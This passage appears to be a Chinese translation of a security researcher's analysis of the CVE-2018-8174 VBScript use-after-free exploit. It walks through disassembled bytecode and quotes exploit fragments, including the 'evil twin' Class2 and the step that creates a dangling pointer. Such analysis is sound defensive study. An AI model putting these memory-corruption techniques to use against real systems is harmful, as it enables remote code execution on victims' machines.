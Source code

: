 ```
        0049    OP_InitClass     ‘Class2’
        004E    OP_LocalSet      1
        ***BOS(8876,8891)*** llII.mem=lIlIIl *****
        0051    OP_Bos1          5
        0053    OP_NamedAdr      ‘lIlIIl’
        0058    OP_LocalAdr      1
        005B    OP_MemSt         ‘mem’
        ….
```

该函数的第一个基本块是：

*** BOS（8626,8656）*** P = CDbl（“174088534690791e-324”）*****<br>
0000OP_Bos1 0<br>
0002OP_StrConst’174088534690791e-<br>
324’0007OP_CallNmdAdr’CDbl’1<br>
000EOP_LocalSt 0

该块将字符串’174088534690791e-324’转换为[VARIANT](https://msdn.microsoft.com/en-us/library/windows/desktop/ms221627(v=vs.85).aspx)结构，并将其存储在本地变量0中，保留为函数的返回值。

[![](https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/07/02153036/180702-vbscript-3.png)](https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/07/02153036/180702-vbscript-3.png)

在将’174088534690791e-324’转换为双倍后得到VARIANT

设置后的返回值在被返回之前，执行以下函数：

For IIIl=0 To 6<br>
IIIlI(IIIl)=0<br>
Next

该函数会调用“Class1”实例的垃圾回收器，并由于我们之前提到的Class_Terminate()中存在的[use-after-free漏洞](https://securelist.com/root-cause-analysis-of-cve-2018-8174/85486/)而导致一个悬空指针引用。

In the line

***BOS(8855,8874)*** Set llII=New Class2 *****<br>
0047OP_Bos1 4<br>
0049OP_InitClass ‘Class2’<br>
004EOP_LocalSet 1

OP_InitClass ‘Class2’指令在先前释放的VBScriptClass 的**位置**创建’Class1’类的“evil twin”实例，该实例仍由函数36(‘SetProp’)中的OP_NamedSt ‘mem’指令引用。

“Class2”类是“Class1”类的“evil twin”：

```
Class Class2
Dim mem
Function P0123456789
    P0123456789=LenB(mem(IlII+(8)))
End Function
Function SPP
End Function
End Class
```
